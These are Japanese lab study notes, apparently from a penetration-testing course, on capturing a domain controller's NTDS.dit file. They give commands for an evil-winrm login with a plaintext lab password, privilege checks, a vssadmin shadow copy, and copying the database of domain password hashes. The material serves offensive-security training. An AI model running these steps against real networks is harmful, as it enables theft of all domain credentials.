 ## NTDS.ditのキャプチャ
- NT Directory Services (NTDS) 
	- AD（Active Directory）と共に利用されるディレクトリサービス
	- ネットワークリソースの検索と整理を行う
- NTDS.dit
	- ADに関連付けられた主要なデータベースファイル
		- すべてのドメインユーザー名、パスワードハッシュ、その他の重要なスキーマ情報が書いてある
	- フォレスト内のドメインコントローラー上の `%systemroot%/ntds` に保存
	- dit は「directory information tree（ディレクトリ情報ツリー）」の略
	- 入手できれば
		- SAM攻撃と同じ要領でドメイン上のすべてのアカウントを侵害できる可能性がある
- 取得に必要な権限
	- ローカル管理者（`Administrators group`）またはドメイン管理者（`Domain Admins group`）（または同等の）権限が必要

### Evil-WinRMでDCに接続
DC : Domain Contoroller
- Active Directory環境において認証やディレクトリサービスの提供など、重要な役割を担うサーバ
```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

### ローカルグループメンバーシップの確認
ログインしたユーザーの権限と、ローカルグループのメンバーシップを調べる
- ローカルグループ
	- それぞれのワークステーションやサーバー内のユーザーグループのこと
		- ADには、ドメインユーザーグループもあるけど、ここでは、DC内のユーザーってこと
目的 : 権限昇格する必要性があるのか、横展開する必要があるのかを判断するための情報収集

アカウントにローカル管理者権限があるかどうかを確認
NTDS.ditファイルのコピーを作成するには、ローカル管理者（`Administrators group`）またはドメイン管理者（`Domain Admins group`）（または同等の）権限が必要
```shell-session
*Evil-WinRM* PS C:\> net localgroup
```

ドメインを含むユーザーアカウントの権限の確認
```shell-session
*Evil-WinRM* PS C:\> net user <ユーザー名>
```

### Cのシャドウコピーの作成
vssadminを使用して、Cドライブまたは管理者がADの初期インストール時に選択した任意のボリュームの[VSS](https://learn.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service)を作成する
- VSSは、PPやシステムを停止しないで、読み書きがアクティブなボリュームのコピーを作成できる
```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

### VSS から NTDS.dit をコピーして、攻撃元に転送する
C:の作成できたVSSから、NTDS.ditファイルだけを抽出する
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy <Shadow Copy Volume Name>\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
